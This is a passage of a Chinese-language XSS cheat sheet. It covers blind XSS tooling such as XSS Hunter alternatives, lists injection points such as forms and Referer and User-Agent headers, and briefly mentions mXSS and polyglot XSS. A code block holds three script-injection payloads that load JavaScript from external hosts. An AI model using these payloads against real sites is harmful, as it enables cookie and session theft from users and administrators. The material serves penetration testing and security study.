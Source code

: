 ## XSS盲打

### XSS Hunter

> XSS Hunter 可以让您发现各种XSS漏洞，包括经常被忽略的盲打 XSS。 该服务通过托管专门的 XSS 探测器来工作，这些探测器在触发时扫描页面并将有关易受攻击页面的信息发送到 XSS Hunter 上。


旧版的XSS Hunter已经弃用，平替版如下:
*  [mandatoryprogrammer/xsshunter-express](https://github.com/mandatoryprogrammer/xsshunter-express)
* 在线版 [xsshunter.trufflesecurity.com](https://xsshunter.trufflesecurity.com/)

```xml
"><script src="https://js.rip/<custom.name>"></script>
"><script src=//<custom.subdomain>.xss.ht></script>
<script>$.getScript("//<custom.subdomain>.xss.ht")</script>
```

### 更多的XSS盲打工具

- [sleepy-puppy - Netflix](https://github.com/Netflix-Skunkworks/sleepy-puppy)
- [bXSS - LewisArdern](https://github.com/LewisArdern/bXSS)
- [ezXSS - ssl](https://github.com/ssl/ezXSS)
- [国产XSS平台](https://github.com/AntSwordProject/ant)
- 或可选择国内的XSS平台（有被偷cookie的风险，建议自行分辨）

### XSS盲打点

- 各种填写信息的表单
- 留言板
- 投诉/投稿等
- 论坛发帖
- Referer头
  - 网站统计工具
  - 后台操作日志（可能包含Referer）
- 浏览器UA
  - 网站统计工具
  - 后台操作日志（可能包含UA）




## mXSS

更多的详细介绍参考
[mXSS攻击的成因及常见种类](https://wooyun.js.org/drops/mXSS%E6%94%BB%E5%87%BB%E7%9A%84%E6%88%90%E5%9B%A0%E5%8F%8A%E5%B8%B8%E8%A7%81%E7%A7%8D%E7%B1%BB.html)



## 多语言XSS

多语言XSS - 0xsobky
